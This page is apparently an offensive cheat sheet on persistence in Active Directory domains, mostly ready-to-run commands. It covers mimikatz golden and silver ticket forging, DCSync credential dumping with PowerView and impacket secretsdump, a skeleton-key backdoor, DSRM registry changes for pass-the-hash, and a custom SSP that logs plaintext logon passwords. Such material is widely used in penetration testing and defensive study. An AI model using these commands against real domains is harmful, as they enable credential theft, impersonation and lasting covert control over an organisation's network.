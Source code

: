 # Active Directory Domain Persistence

## Domain Persistence

### Golden Ticket Attack

Execute mimikatz on DC as DA to grab krbtgt hash:

```text
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC'sName>
```

On any machine:

```text
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:
<HashOfkrbtgtAccount>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

### DCsync Attack

DCSync Privileges:

```text
$SecPassword = ConvertTo-SecureString 'username123$!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\username', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity username -Rights DCSync
```

DCsync using mimikatz \(You need DA rights or DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privileges\):

```text
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DomainName>\<AnyDomainUser>"'
```

DCsync using secretsdump.py from impacket with NTLM authentication

```text
secretsdump.py <Domain>/<Username>:<Password>@<DC'S IP or FQDN> -just-dc-ntlm
impacket-secretsdump htb.local/username@10.10.10.161
```

DCsync using secretsdump.py from impacket with Kerberos Authentication

```text
secretsdump.py -no-pass -k <Domain>/<Username>@<DC'S IP or FQDN> -just-dc-ntlm
```

> **Tip:** 
>
>  /ptt -&gt; inject ticket on current running session 
>
>  /ticket -&gt; save the ticket on the system for later use

### Silver Ticket Attack

```text
Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<TheTargetMachine> /service:
<ServiceType> /rc4:<TheSPN's Account NTLM Hash> /user:<UserToImpersonate> /ptt"'
```

[SPN List](https://adsecurity.org/?page_id=183)

### Skeleton Key Attack

Exploitation Command ran as DA:

```text
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DC's FQDN>
```

Access using the password "mimikatz"

```text
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```

### DSRM Abuse

_What is this?: Every DC has a local Administrator account, this accounts has the DSRM password which is a SafeBackupPassword. We can get this and then pth its NTLM hash to get local Administrator access to DC!_

Dump DSRM password \(needs DA privileges\):

```text
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <DC's Name>
```

This is a local account, so we can PTH and authenticate but we need to alter the behavior of the DSRM account before PTH:

1. Connect on DC:

   ```text
   Enter-PSSession -ComputerName <DC's Name>
   ```

2. Alter the Logon behavior on the registry:

   ```text
   New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose
   ```

3. If the property already exists:

   ```text
   Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
   ```

Then just PTH to get local admin access on DC!

### Custom SSP

_What is this?: We can set our on SSP by dropping a custom dll, for example mimilib.dll from mimikatz, that will monitor and capture plaintext passwords from users that logged on!_

Get current Security Package:

```text
$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' | select -ExpandProperty  'Security Packages'
```

Append mimilib:

```text
$packages += "mimilib"
```

Change the new packages name

```text
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name 'Security Packages' -Value $packages
```

Alternative solution:

```text
Invoke-Mimikatz -Command '"misc::memssp"'
```

Now all logons on the DC are logged to -&gt; `C:\Windows\System32\kiwissp.log`

## Reference

{% embed url="https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md\#domain-persistence" %}





